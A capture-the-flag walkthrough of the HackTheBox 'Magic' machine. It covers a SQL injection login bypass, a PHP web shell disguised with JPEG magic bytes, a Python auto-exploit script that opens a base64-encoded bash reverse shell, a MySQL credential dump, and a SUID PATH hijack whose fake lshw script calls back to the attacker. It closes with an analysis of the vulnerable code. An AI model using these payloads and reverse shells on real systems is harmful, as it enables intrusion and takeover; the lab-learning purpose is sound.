

Magic was a good box. It's Linux and Medium, from HackTheBox. We got two normal paths in HackTheBox. One SQLInjection to bypass the login and a file upload to get RCE.

The first shell is as www-data, then we upgrade to theseus with a credential on the mysql. The root part we get with a path hijack of a binary running with suid.

The autoshell for www-data is on the script. Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.185
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


We see a bunch of images in it, and a `Upload File` in the bottom of it

So we must login in the app


We will try that with wfuzz, we get one request in burp, to see how it is structured


Let's try all kind of injection to bypass the login and get access to the page

After spend a long time trying all kind of login bypasses

For example this wfuzz command with a [List](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

```sh
wfuzz -z file,list.txt -d "username=adminFUZZ&password=admin" --hc 200 http://10.10.10.185/login.php
```

We see that a bunch of them works


I'll use a simple one `'#`


And it worked


It worked possibly because the site is using a query like this one

```sql
SELECT * from users where username = '$username' and password = '$password';
```

So my input makes that:

```sql
SELECT * from users where username = 'admin''#and password = 'admin';
```

Awesome... let's continue

We try to upload a php file


And it shows me


### Filter Bypass

So, let's play with magic numbers, seems that is happening some kind of filter here

We add `FF D8 FF EE` in the beginning of the file, so it become a JPEG image (with hexeditor). Took from [Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)


We upload, and success


The problem is that this is a jpeg file, not a php file

We, on burp, change the name to `0x4rt3mis.php.jpeg` and succees


We need to find the place where this file was uploaded

So, we run gobuster

```sh
gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 30
```


Again on the `images` folder

And we found it


And we get RCE


Getting a rev shell


And here it is


Now, let's automate it.

# Auto Shell www-data

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_www_data.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Rev Shell - Magic HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
        
# Upload Malicious
def maliciousUpload(rhost):
    url = "http://%s/upload.php" %rhost
    data = b'\xff\xd8\xff\xee\r\n\r\n<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'image': ('0x4rt3mis.php.jpeg', data, "image/jpeg"),
        'submit' : (None,"Upload Image")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

# Trigger the reverse shell
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/images/uploads/0x4rt3mis.php.jpeg" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--ipaddress', help='Local IP Adress', required=True)
    parser.add_argument('-lp', '--port', help='Local Port to Receive the Shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ipaddress
    lport = args.port
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Upload malicious php file
    maliciousUpload(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

Let's continue our exploration

# www-data --> Theseus

Our first user to get is the theseus

Looking at the `db.php5` file in the web root directory we found some creds


So, we use `mysqldump` to extracted the password (we could use `chisel` and port forward to our box the mysql port)

```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```


On one line we see a credential


Let's login as theseus


# Theseus --> Root

Now, the root part

We run [Linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)


And we found a binary with `suid` enabled


```sh
ltrace /bin/sysinfo
```


We made a binary which is opened on popen in ltrace

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/448 0>&1' > lshw
chmod +x lshw
cat lshw
```


We fix the path

```sh
echo $PATH
export PATH="/tmp:$PATH"
echo $PATH  
```


Now, just run sysinfo and we got a root shell in nc


# Code Analisys

We copy the code to our box to better analyse it

```sh
rsync -azP -i root@10.10.10.185:/var/www/Magic/* .
```


The first thing is to look for why the webserver is executing png file as php

For that we see the `.htaccess`


This regex doesn't have the trailing $, which means it will match is .php is anywhere in the string. That's why if the format `.php.png` is being executed as php file.

We need to see the upload mechanism also


The first check is on the line 16

```php
if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg") {
```

It checks if the file is jpg, png or jpeg.

The second check is on the line 23

```php
$check = exif_imagetype($_FILES["image"]["tmp_name"]);
```

Checking the `exif_imagetype` of the file

According to the [manual](https://www.php.net/manual/en/function.exif-imagetype.php) of php

```
exif_imagetype() reads the first bytes of an image and checks its signature.
When a correct signature is found, the appropriate constant value will be returned otherwise the return value is FALSE.
```

The two return values of interest here are IMAGETYPE_JPEG (2) and IMAGETYPE_JPNG (3), which show up in $allowed.

The third check is on line 31

```php
if (strpos($image, "<?") !== FALSE) {
```

It's commented because it's going to make the things extremelly hard and false positively, because it checks the `<?` on the string.

We also see the code of the sysinfo on the root folder


This code makes a series of calls to various functions, all without full paths. I could have impersonated any of lshw, fdisk, cat, or free to get execution.